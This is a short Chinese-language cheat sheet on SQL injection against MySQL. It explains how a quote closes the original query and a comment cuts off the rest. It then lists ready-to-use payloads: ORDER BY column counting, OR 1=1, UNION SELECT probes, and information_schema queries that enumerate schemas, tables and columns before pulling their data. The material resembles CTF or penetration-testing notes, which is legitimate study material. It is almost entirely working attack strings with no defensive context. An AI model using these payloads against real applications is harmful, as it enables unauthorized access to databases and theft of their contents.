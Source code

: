 ### 											Summary SQLInjection Attack

SQL注入漏洞一般的格式为

```mysql
-1' payload-- ;
```

用于回显该查询语句的某些特定列的情况。

而

```mysql
-1';payload-- ;
```

用于能够回显所有查询结果的情况。

其中, -1’用于闭合第一句查询, 后边的payload执行你想要的查询语句。注释符负责绕过后边的条件检查。

现在给出一些常用的注入语句。

```mysql
-1' ORDER BY n-- ; 
#用于判断查询的列数
-1' or 1=1-- ;
#用于显示TABLE中所有查询列的结果
-1' UNION SELECT 1,2,3-- ;
#用于查看哪些列会回显
-1' UNION SELECT 1,2,group_concat(SCHEMA_NAME) FROM information_schema.SCHEMATA-- ;

-1' UNION SELECT 1,2,group_concat(TABLE_NAME) FROM information_schema.TABLES WHERE TABLE_SCHEMA='[TABLE_NAME]'-- ;


-1' UNION SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.COLUMNS WHERE TABLE_NAME='[TABLE_NAME]'-- ;

-1' UNION SELECT 1,[COLUMN_NAME1], [COLUMN_NAME2] FROM '[TABLE_NAME]'-- ; 

```

